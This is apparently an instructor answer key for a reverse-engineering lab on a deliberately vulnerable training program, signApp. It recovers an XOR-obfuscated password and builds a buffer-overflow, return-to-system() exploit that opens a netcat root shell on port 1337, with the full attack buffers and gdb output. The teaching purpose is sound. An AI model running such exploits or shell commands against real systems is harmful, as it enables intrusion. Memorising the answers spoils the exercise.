



Author: Troy Shurtleff Copyright 2019 BAE Systems SPDX-License-Identifier: Apache-2.0
Reverse Engineering the Variable Message SignObjective #1 (Recover the Default Password)Objective #2 (Identify and Report a Security Vulnerability)
Approved for public release; unlimited distribution Not export controlled per ES-FL-091619-0203
Exercise: Provide a screenshot showing the entry point of the 'check_password' function in the Listing view.
The entry point of the check_password function is at offset 0x00010764.

Exercise: Provide a screenshot showing the original decompilation of the 'check_password' function performed by Ghidra.

Exercise: Do you observe any global variable names in the 'check_password' function? If so, what are they called? What data do you think might be stored in these global variables (In other words, what are they used for)?
In the check_password function there is a global variable named ciphertext_password. This global variable stores the ciphertext password.
Exercise: Analyze the Ghidra's decompilation of the 'check_password' function and rename some of the local variables so the names reflect more accurately how they are used. Provide a screenshot of your updated function.
One solution is shown below. Names chosen by students will vary. Key takeaways are that there is a local variable that holds the input buffer (i.e. the password entered by the client) and a local variable that contains the correct plaintext password.

Exercise: Describe the algorithm used to decrypt the correct password for the signApp.
The check_password function decrypts the ciphertext password (stored in a global variable) and stores the result in a local variable.
In the original source code, each character of the ciphertext password is XORed with a single byte key (0xAA) and the result is the plaintext password. The original decryption code is shown below (with defined macro values substituted).
// Decrypt the correct password for (unsigned int i = 0; i < 10; i++) { plaintext_password[i] = ciphertext_password[i] ^ 0xAA; }Ghidra's decompilation is not quite as straightforward. Ghidra shows each ciphertext character being XORed with the one's complement of the original key then the one's complement of that result is taken to yield the associated plaintext character. The outcome of this operation is equivalent to the original. The decompilation Ghidra generates is equivalent to the code below (the code below is slightly rewritten so it is comparable to the original source code).
xxxxxxxxxx // Decrypt the correct password for (unsigned int i = 0; i < 10; i++) { plaintext_password[i] = ~(ciphertext_password[i] ^ 0x55); }Student descriptions of the algorithm may vary, but if they are able to determine the key and plaintext password they have correctly reverse engineered the algorithm.
Exercise: What are the byte values, in hexadecimal, for each character in the ciphertext password?
The byte values are: 0xC3, 0xC4, 0xC9, 0xC5, 0xD8, 0xD8, 0xCF, 0xC9, 0xDE, 0xAA
Exercise: What is the key used for decrypting the ciphertext password?
Depending on how students express the decryption algorithm they should indicate either 0xAA or 0x55. Note that 0x55 is the binary ones complement of 0xAA.
Exercise: What is the ASCII character representation of the plaintext password?
The plaintext password is incorrect.
When you enter an incorrect password the VMS Administrative Interface says "Your password is incorrect." ...get it? Even if they make a lucky guess they are still asked for the ciphertext password and the key, which they can only obtain by reverse engineering the software.
Exercise: Identify all the registers we control.
The full output from the info registers command is shown below.
xxxxxxxxxx(gdb) info registersr0 0x41414141 1094795585r1 0xb6f52e99 3069521561r2 0x41 65r3 0x41414141 1094795585r4 0x0 0r5 0xb6f534d0 3069523152r6 0xb6fd22ac 3070042796r7 0x152 338r8 0xb6fc03ec 3069969388r9 0xb6f53040 3069521984r10 0x200000 2097152r11 0x41414141 1094795585r12 0xb6f88ff0 3069743088sp 0xb6f52eb8 0xb6f52eb8lr 0x108d0 67792pc 0x41414140 0x41414140cpsr 0xa0000030 2684354608(gdb)
The registers we control are r0, r2, r3, r11, and pc.
An alias for r11 is fp (frame pointer). If students answer fp instead of r11 that is correct.
The r2 register may be difficult to identify because we only control one byte (the remaining bytes are NULL).
Exercise: For all of the registers we control, identify (1) the register identifier (e.g. r0, pc), (2) the sequence of bytes in that register, and (3) the offset into the input buffer where the value starts. Count the offsets using a 1-based index (e.g. in the following buffer the sequence of four 'B' characters starts at index 5: AAAABBBBCCCC).
The full output from the info registers command is shown below.
xxxxxxxxxx(gdb) info registersr0 0x41386341 1094214465r1 0xb6f52e99 3069521561r2 0x41 65r3 0x41386341 1094214465r4 0x0 0r5 0xb6f534d0 3069523152r6 0xb6fd22ac 3070042796r7 0x152 338r8 0xb6fc03ec 3069969388r9 0xb6f53040 3069521984r10 0x200000 2097152r11 0x64413963 1681996131r12 0xb6f88ff0 3069743088sp 0xb6f52eb8 0xb6f52eb8lr 0x108d0 67792pc 0x31644130 0x31644130cpsr 0xa0000010 2684354576(gdb)
The answers are in the table below.
| (1) Register Identifier | (2) Sequence of Bytes in Register | (3) Offset |
|---|---|---|
r0 | 0x41386341 (ASCII A8cA) | 85 |
r2 | 0x41 (ASCII A) | Difficult to determine using only this approach |
r3 | 0x41386341 (ASCII A8cA) | 85 |
r11 | 0x64413963 (ASCII dA9c) | 89 |
pc | 0x31644130 (ASCII 1dA0) | 93 |
The following text representation may help counting the offsets and determine how close students are if they are not exactly correct. To count properly, make sure the text below is not wrapping (maybe paste it into a text editor from a Markdown or HTML version of this document.
xxxxxxxxxxAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1AeAc8Ac9Ad0Ad112345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901 2 3 4 5 6 7 8 9 0 1 2 31 1 1 1
Exercise: Construct a buffer that populates a four-byte sequence of ASCII 'B' characters (0x42) in the pc register and a four-byte sequence of ASCII 'C' characters in the r0 register. Your buffer will cause the signApp process to crash and the register state will be captured in the resulting core file. Your buffer should contain only four ASCII 'B' characters and only four ASCII 'C' characters. All other characters in your sequence should be ASCII 'A' characters. Your buffer should end with the sequence of four ASCII 'B' characters. Provide the following three items as your response to this exercise:
signApp crash, in GDB.The text of the command is shown below.
xxxxxxxxxxpython -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAABBBB"' | nc 127.0.0.1 5555
The screenshot will show the following output.
xstudent@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAABBBB"' | nc 127.0.0.1 5555The message of the day is: Changing lanes? Use yah blinkah.If you enter the correct password you can change the message of the day.password: student@revm:~$
The screenshot of the register state will show the following output.
xxxxxxxxxx(gdb) info registersr0 0x43434343 1128481603r1 0xb6f52e99 3069521561r2 0x41 65r3 0x43434343 1128481603r4 0x0 0r5 0xb6f534d0 3069523152r6 0xb6fd22ac 3070042796r7 0x152 338r8 0xb6fc03ec 3069969388r9 0xb6f53040 3069521984r10 0x200000 2097152r11 0x41414141 1094795585r12 0xb6f88ff0 3069743088sp 0xb6f52eb8 0xb6f52eb8lr 0x108d0 67792pc 0x42424242 0x42424242cpsr 0xa0000010 2684354576(gdb)
Exercise: Provide a screenshot of the VMS process listing in your environment.
The screenshot will contain information that resembles the following. It is possible some of the PIDs, including the PID of the signApp, will be different. This is fine. The screenshot is primarily requested to make sure the students performed this check.
xxxxxxxxxx# psPID USER COMMAND1 root init2 root [kthreadd]3 root [kworker/0:0-eve]4 root [kworker/0:0H-kb]5 root [kworker/u2:0-ev]6 root [mm_percpu_wq]7 root [ksoftirqd/0]8 root [kdevtmpfs]9 root [netns]10 root [oom_reaper]11 root [writeback]12 root [kcompactd0]13 root [crypto]14 root [kblockd]15 root [kswapd0]16 root [kworker/0:1-eve]23 root [scsi_eh_0]24 root [scsi_tmf_0]25 root [kworker/0:1H-kb]26 root [ipv6_addrconf]27 root [kworker/u2:1]28 root [kworker/0:2-eve]29 root [ext4-rsv-conver]45 root /sbin/syslogd -n49 root /sbin/klogd -n82 root udhcpc -R -n -p /var/run/udhcpc.eth0.pid -i eth087 root /usr/sbin/dropbear -R89 root /usr/sbin/signApp90 root -sh92 root ps#
Exercise: Provide a screenshot of the memory map for the signApp process in your environment (i.e. the contents of the /proc/[pid]/maps pseudo-file).
The screenshot will contain the following information.
xxxxxxxxxx# cat /proc/89/maps00010000-00011000 r-xp 00000000 08:00 335 /usr/sbin/signApp00021000-00022000 r-xp 00001000 08:00 335 /usr/sbin/signApp00022000-00023000 rwxp 00002000 08:00 335 /usr/sbin/signAppb6f54000-b6fc1000 r-xp 00000000 08:00 415 /lib/libuClibc-1.0.31.sob6fc1000-b6fd1000 ---p 00000000 00:00 0b6fd1000-b6fd2000 r-xp 0006d000 08:00 415 /lib/libuClibc-1.0.31.sob6fd2000-b6fd3000 rwxp 0006e000 08:00 415 /lib/libuClibc-1.0.31.sob6fd3000-b6fe9000 rwxp 00000000 00:00 0b6fe9000-b6fef000 r-xp 00000000 08:00 414 /lib/ld-uClibc-1.0.31.sob6ffb000-b6ffd000 rwxp 00000000 00:00 0b6ffd000-b6ffe000 r-xp 00000000 00:00 0 [sigpage]b6ffe000-b6fff000 r-xp 00005000 08:00 414 /lib/ld-uClibc-1.0.31.sob6fff000-b7000000 rwxp 00006000 08:00 414 /lib/ld-uClibc-1.0.31.sobefdf000-bf000000 rw-p 00000000 00:00 0 [stack]ffff0000-ffff1000 r-xp 00000000 00:00 0 [vectors]#
Note that the column to the left of the path represents the inode number, which may vary. The most important information here is the addresses in the far left column.
Exercise: What is the virtual memory address of where we can find the data stored in the message_of_the_day variable?
The virtual memory address of the message_of_the_day variable is 0x00022070.
Exercise: What is the base address for the libc.so.0 library in the context of the virtual memory address space for the signApp process?
The base address of the libc.so.0 library is 0xb6f54000.
Exercise: What is the virtual memory address of where we can find the system function in the signApp process?
The virtual memory address of the system function in the signApp process is 0xb6f9c074.
Exercise: Provide the following items to demonstrate you were able to complete a working proof-of-concept exploit.
The text of the command you ran to send your final proof-of-concept attack buffer to the VMS Administrative Interface.
xxxxxxxxxxstudent@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x20\x02\x00AAAA\x74\xc0\xf9\xb6"' | nc 127.0.0.1 5555
A screenshot showing the full output you see in the terminal after running the command.
The screenshot will show the following output. Note that the connection is not terminated because the while loop is running (i.e. the call to the system function has not returned).
xxxxxxxxxxstudent@revm:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x70\x20\x02\x00AAAA\x74\xc0\xf9\xb6"' | nc 127.0.0.1 5555The message of the day is: while true; do nc -lnv -p 1337 -e /bin/sh; sleep 1; doneIf you enter the correct password you can change the message of the day.password:
A screenshot showing the results of running the id and uname -a commands in your netcat shell connection to the VMS.
The screenshot will contain the following text for the id and uname -a commands. Make sure the output from uname -a contains armv5tejl. If it does not the command was run on the Reverse Engineering VM and not the target VMS system.
xxxxxxxxxxstudent@revm:~$ nc 127.0.0.1 1337iduid=0(root) gid=0(root)uname -aLinux vms 4.19.16 #1 Sat Aug 17 17:56:07 EDT 2019 armv5tejl GNU/Linux
Note that we gave the students this expected output in the exercise document. The screenshot shows they successfully performed the exploit
Author: Troy Shurtleff Copyright 2019 BAE Systems SPDX-License-Identifier: Apache-2.0
Approved for public release; unlimited distribution Not export controlled per ES-FL-091619-0203